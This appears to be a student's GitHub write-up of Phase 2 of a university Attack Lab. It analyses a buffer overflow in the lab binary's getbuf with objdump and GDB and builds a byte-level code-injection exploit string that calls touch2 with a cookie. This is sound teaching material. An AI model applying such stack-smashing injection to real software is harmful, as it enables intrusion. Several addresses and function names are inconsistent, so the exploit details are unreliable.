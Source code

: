 # Phase 2

## Attack Lab Spec

Phase 2 involves injecting a small amount of code as part of your exploit string.
Within the file `ctarget` there is code for a function `touch2` having the following C representation:  
```
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol \*/
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2); 
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}                                                      
```
Your task is to get `CTARGET` to execute the code for `touch2` rather than returning to `test`. In this case,
however, you must make it appear to `touch2` as if you have passed your cookie as its argument.  

**Some Advice:**  
• You will want to position a byte representation of the address of your injected code in such a way that `ret` instruction at the end of the code for `getbuf` will transfer control to it.  
• Recall that the first argument to a function is passed in register `%rdi`.  
• Your injected code should set the register to your cookie, and then use a `ret` instruction to transfer control to the first instruction in `touch2`.  
• Do not attempt to use `jmp` or `call` instructions in your exploit code. The encodings of destination addresses for these instructions are difficult to formulate. Use `ret` instructions for all transfers of 
control, even when you are not returning from a call.

Among other things the following image was provided. It is also useful to note that c3 is the hex encoding for the ret instrucition.
![image](https://github.com/Motik7/AttackLab-Writeup/assets/60900283/5eb247a9-f732-44bc-9ae4-75f597f749e4)

## Analysis

It's clear that we need to get to `touch2` from `getbuf`. Looking at `getbuf` in cobjectdum we see the following code:  
```
00000000004017be <getbuf>:                        
4017be:	48 83 ec 18          	sub    $0x18,%rsp     
4017c2:	48 89 e7             	mov    %rsp,%rdi      
4017c5:	e8 30 02 00 00       	callq  4019fa <Gets>  
4017ca:	b8 01 00 00 00       	mov    $0x1,%eax      
4017cf:	48 83 c4 18          	add    $0x18,%rsp     
4017d3:	c3                   	retq                
```

Looking at the code, we see the following things happen. We put 0x18 bytes of storage on the stack, and then put our stack pointer into rdi. The function `Gets` is then called which we can assume
inputs whatever we enter into the stack. This pens up the opportunity for code injection. For phase 1, this is simply just changing the return address, which is always the last thing on the stack when
a function exits. We can confirm this by considering that we add 0x18 back to the rsp and then retq, which pops the value held at rsp and then goes to it. Therefore, if we can inject 0x18 bytes of random values and then the address of `touch2` when `retq` attempts to return to the address pointed to by rsp, it'll be our address. Looking again through the object dumb for `touch1` we see  
`0000000000401800 <touch2>`  
which tells us that our `touch2` function is at address 0x401800. We remember that x86-64 operates on little endian, and thus in our string the address must be formatted correctly.

However, before we can enter `touch2` we first must put our cookie into register `%rdi`. To do this, we'll have to take our return address into some code that we'll write to put the cookie into `%rdi`. We can accomplish this by writing code within the 0x18 initial string bytes, and then returning within it which will begin running the code. However, we need to know where that is. To accomplish that goal, we'll use GDB on ctarget. 

### GDB Analysis

#### Finding `%rsp`

Before that, we need to know where to set certain breakpoints to be able to inspect our code well. A valuable place to put the breakpoint would be `getbuf` since ultimately it is where we do our injection, and will show us where the stack pointer `%rsp` is at any moment we choose to see. GDB allows us to simply put breakpoints at functions using `b <function_name>` so using `b getbuf` will put a breakpoint at the right spot. We then run with `r` and for now we won't include any argument. We hit the breakpoint and use `i r` to show information regarding the registers. We see that  
`rsp            0x556424c0          0x556424c0`  
which gives us a good idea of where `%rsp` is, however it's not the one that we want. At this point, we haven't decremented the stack, and while we could manually deduct 0x18 from the value we see, it's easier to run `si` and let the code do it for us. Thus, we see  
`rsp            0x556424a8          0x556424a8`  
From this, we now know where our string starts, and where we could potentially inject code. We have confirmation this does not change between runs, so we can safely continuously use this.

## Solution

Now that we have all of the information we need, we can put it all together. The plan of attack is to inject two pieces of code, a `pop rdi` and a `ret`. Referring to the info provded above, these are `5f` and `c3` respectively. We still need to pad out the rest of the 0x18 so we are now at  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`  
Now we need to go to our injected code. From our GDB analysis, we see that the string starts at 0x556425a8. Therefore we add this in overwriting the return address of `getbuf`. Using little endian notation as is required, this yields  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55`  
However, we are still not done. Consider that `pop rdi` pops whatever `%rsp` points to and puts it into `%rdi`. The `retq` in `getbuf` will move `%rsp` past the return address we injected. We therefore need to append what we want in `%rdi` after our return address. We look in cookie.txt to see that our cookie is 0x32bf3fc2. Therefore, following little endian protocol we append it to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 c2 3f bf 32`  
This will not work. The reason for this is that ret reads 8 bytes and we have only provided 4. This will not work as intended, so we pad it out to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 c2 3f bf 32`  
Now we have our cookie in `%rdi`, and we need to `ret` into `touch2`. `c3` will accomplish this, but once again we need to put the return address into our stack. Putting it all together, we get a final solution of  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 c2 3f bf 32 00 00 00 00 00 18 40 00`
